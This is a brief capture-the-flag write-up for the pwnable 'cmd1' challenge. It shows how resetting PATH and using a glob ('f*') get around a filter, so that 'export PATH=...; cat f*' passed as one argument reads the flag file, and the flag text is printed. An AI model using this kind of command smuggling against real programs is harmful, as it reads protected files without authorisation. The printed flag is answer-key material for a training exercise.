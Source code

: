 **Cmd1 (1 Point)**


The PATH environment variable is used to locate the directory of linux commands.
We can simply change it to it's origianl value and use cat.


```diff
cmd1@pwnable:~$ ./cmd1 "cat f*"
sh: 1: cat: not found
cmd1@pwnable:~$ ./cmd1 "echo f*"
flag
cmd1@pwnable:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
cmd1@pwnable:~$ ./cmd1 "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin; cat f*"
mommy now I get what PATH environment is for :)

```